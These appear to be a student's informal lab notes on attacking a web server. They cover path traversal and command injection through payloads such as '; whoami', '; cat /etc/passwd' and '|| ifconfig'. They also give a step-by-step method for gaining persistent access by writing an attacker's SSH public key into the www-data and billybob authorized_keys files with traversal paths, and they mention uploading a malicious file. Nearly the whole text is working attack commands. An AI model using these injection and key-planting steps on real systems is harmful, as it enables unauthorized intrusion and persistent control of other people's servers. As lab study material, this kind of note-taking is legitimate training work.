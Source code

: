 There will be a webserver on the ouside first.
-tricking file to read file from locations it shouldn't
- prepended path directories don't allow you to directly
- COMMAND INJECT - force site to run commands it was no designed to run
```shell
ls ; pwd 
#running below on server
 ; whoami
 ' ls the "www.html" directory
 ; cat /etc/passwd | grep www-data
 ; mkdir /var/www/.ssh
 ; ls -latr & netstat -rn
 || ifconfig
 ; mkdir /var/www/.ssh # make ssh directory in the ww-datas user folder
 ssh-keygen #this will ask o generate file. LEAVE DEFAULT
 cd .ssh
 cat id_rsa.pub # everything in this file is your ssh key
 #use ssh keys from machine to authenticate
 ; echo "RSA key" >> /var/www/.ssh/authorized_keys
 #now you can ssh in as www-data
 ssh www-data@<ip>
 ```
 ------------------------
 upload maliciouse file
 /var/www/html/uploads
 /var/www/

mkdir ../../../../../../home/billybob/.ssh
ls -shla ../../../../../../home/billybob

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCg7ftUkFTSYnMeZCCD9mlCaNzoHQSIh0qFI2mFIS/jHXEJ33SrarLcArpFFoFjDgsJxji/5yLHqem8GW5wJRV5jYe2BBObGpHN/S2lB2zl5kjRKrApg3CY75Fgfz7umx6GoxPHVG5oZjoBXp5V2KAiSPvsIwCRFNvkJdqFULNFr2sCcIy61ce2a/o0dVHr2VHjjkJUIgvEuH4Y6Nf6tINKlGFBxH2prFMz4lCIgO4OLC0VHcmT/ZH431jmkzdg6RuTNolz6uKfy6PY3WcFXJ+RcYzWqcZJ78gYOapIBhQncvJ8sHb5Pdd+EjZOC//aQ11N2pExt2OSLrmfwnXLwMlj student@lin-ops" >> ../../../../../../var/www/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCg7ftUkFTSYnMeZCCD9mlCaNzoHQSIh0qFI2mFIS/jHXEJ33SrarLcArpFFoFjDgsJxji/5yLHqem8GW5wJRV5jYe2BBObGpHN/S2lB2zl5kjRKrApg3CY75Fgfz7umx6GoxPHVG5oZjoBXp5V2KAiSPvsIwCRFNvkJdqFULNFr2sCcIy61ce2a/o0dVHr2VHjjkJUIgvEuH4Y6Nf6tINKlGFBxH2prFMz4lCIgO4OLC0VHcmT/ZH431jmkzdg6RuTNolz6uKfy6PY3WcFXJ+RcYzWqcZJ78gYOapIBhQncvJ8sHb5Pdd+EjZOC//aQ11N2pExt2OSLrmfwnXLwMlj student@lin-ops
